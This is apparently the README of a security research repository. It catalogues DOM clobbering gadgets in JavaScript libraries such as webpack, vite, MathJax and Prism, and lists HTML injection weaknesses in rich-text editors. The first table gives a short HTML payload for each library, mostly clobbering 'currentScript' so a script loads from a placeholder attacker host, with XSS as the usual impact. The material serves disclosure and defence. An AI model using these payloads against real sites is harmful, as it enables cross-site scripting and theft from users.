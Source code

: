 # DOM Clobbering Collection

This repository lists client-side libraries that are vulnerable to HTML injection or contain DOM Clobbering gadgets that can result in severe issues like XSS.

## DOM Clobbering Gadgets

| Library | Stars | Version | Payloads | Impact | Found By | Status | CVE |
|:-------:|:-----:|:-------:|----------|:------:|:--------:|:------:|:---:|
| [AddToAny](./domc-gadgets/addtoany.md) | N/A | N/A | ```<img src="https://addtoany.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Patched | N/A |
| [astro](./domc-gadgets/astro.md) | 45.7K | v4.5.9 | ```<form name="scripts">alert(1)</form><form name="scripts">alert(1)</form>``` | XSS | TheHulk | N/A | N/A |
| [doomcaptcha](./domc-gadgets/doomcaptcha.md) | 1K | latest | ```<img name="currentScript" label="<script>alert(1)</script>"></img>``` | XSS | TheHulk | Mitre | N/A |
| [Google Client API](./domc-gadgets/google-client-api.md) | N/A | 5BIk7BglYEE | ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”></iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert(1)</iframe>``` | XSS | TheHulk | Patched | N/A |
| [Google Closure](./domc-gadgets/google-closure-library.md) | 4.9K | v20230103 | ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>``` | XSS | TheHulk | Accepted | N/A |
| [inspire.js](./domc-gadgets/inspire.js.md) | 1.7k | v1.10 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [layui](./domc-gadgets/layui.md) | 29.5K | v2.9.16 | ```<img name="currentScript" src="https://xxx.xxx.xxx">``` | XSS | TheHulk | Reported | N/A |
| [MathJax](./domc-gadgets/mathjax2.md) | 10.1K | v2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | Accepted | N/A |
| [MathJax](./domc-gadgets/mathjax3.md) | 10.1K | v3.2.2 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk | Accepted | N/A |
| [Mavo](./domc-gadgets/mavo.md) | 2.8K | v0.3.2 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [pagefind](./domc-gadgets/pagefind.md) | 3.3K | v1.1.0 | ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>``` | XSS | TheHulk | Accepted | CVE-2024-XXXXX |
| [plausible-analytics](./domc-gadgets/plausible-analytics.md) | 19.7K | v2.1.0 | ```<img name="currentScript" data-domain="xxx.xxx.xxx" data-api="https://xxx.xxx.xxx">``` | CSRF | TheHulk | Reported | N/A |
| [plotly.js](./domc-gadgets/plotly.js.md) | 16.9K | v2.35.2 | ```<a id="PLOTLYENV"></a><a id="PLOTLYENV" name="BASE_URL" href="https://xxx.xxx.xxx/?a="></a>``` | Open Redirection | TheHulk | N/A | N/A |
| [polyfills](./domc-gadgets/polyfills.md) | 1.1K | v2.8.0 | ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | Reported | N/A |
| [Prism](./domc-gadgets/prism.md) | 12.2K | v1.29.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx/a.js"></img>``` | XSS | TheHulk | Reported | N/A |
| [rollup](./domc-gadgets/rollup.md) | 25.2K | v4.21.3 | ```<img src="https://xxx.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Fixed | 2024-CVE-XXXXX |
| [rspack](./domc-gadgets/rspack.md) | 8.6K | v1.0.0-rc.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | CVE-2024-XXXXX |
| [squirt](./domc-gadgets/squirt.md) | 1.2K | v0.0.1 | ```<img name="scripts" src="http://xxx.xxx.xxx"><img name="scripts" src="http://xxx.xxx.xxx">``` | XSS | TheHulk | Reported | N/A |
| [Stage.js](./domc-gadgets/stage.js.md) | 2.4K | v1-alpha | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [steal](./domc-gadgets/steal.md) | 1.4K | v2.3.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>``` | XSS | TheHulk | Mitre | N/A |
| [tsup](./domc-gadgets/tsup.md) | 8.9K | N/A | ```<img src="https://xxx.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Reported | N/A |
| [UMeditor](./domc-gadgets/umeditor.md) | 1.4K | v1.2.2 | ```<a id="UMEDITOR_HOME_URL" href="https://xxx.xxx.xxx/"></a>``` | XSS | TheHulk | Reported | N/A |
| [vite](./domc-gadgets/vite.md) | 67.2K | v5.4.5 | ```<img src="https://xxx.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Patched | CVE-2024-XXXXX |
| [Webpack](./domc-gadgets/webpack.md) | 64.4K | v5.93.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Patched | CVE-2024-XXXXX |

## HTML Injection Vulnerabilities

The following libraries accept user input and output content as `type/html` with certain named attributes (e.g., `id` or `name`) preserved at different levels of capability. Using these libraries may expose web applications to HTML injection risks. Libraries may directly insert user input into the DOM, or the web application may retrieve the user input from the library and then add it to the DOM.

| Library | Stars | Version | Input | Sanitizer | Capability | Status | CVE |
|:-------:|:-----:|:-------:|-------|:---------:|-------------------------|:------:|:---:|
| [editor.md](./html-injection/editor.md.md) | 13.8K | v1.5.0 | Type | N/A | Any named property | N/A | N/A |
| [Froala](./html-injection/froala.md) | 5.3K | v4.2.2 | Copy&Paste | DOMPurify | Any `name` attributes | N/A | N/A |
| [mermaid](./html-injection/mermaid.md) | 70.6K | v0.1.4 | Input | DOMPurify | Any named property without collision | N/A | N/A |
| [RichTextEditor](./html-injection/richtexteditor.md) | N/A | Latest | Copy&Paste | N/A | Any named property | N/A | N/A |
| [simplemde](./html-injection/simplemde.md) | 9.9K | v1.11.2 | Type | N/A | Any named property | N/A | N/A |
| [SunEditor](./html-injection/sun-editor.md) | 1.7K | v2.47.0 | Copy&Paste | N/A | `a` tag with `id` | N/A | N/A |
| [TinyMCE-v5/6/7](./html-injection/tinymce.md) | 14.9K | v7.3.0 | Copy&Paste | DOMPurify | Any named property without collision | N/A | N/A |
| [TinyMCE-v4](./html-injection/tinymce4.md) | 14.9K | v4.9.11 | Copy&Paste | N/A | Any named property | N/A | N/A |
| [tui.editor](./html-injection/tui-editor.md) | 17.1K | v3.2.2 | Type | DOMPurify | Any named property without collision  | N/A | N/A |
| [vditor](./html-injection/vditor.md) | 8.3K | v3.10.6 | Type | N/A | Any named property | N/A | N/A |
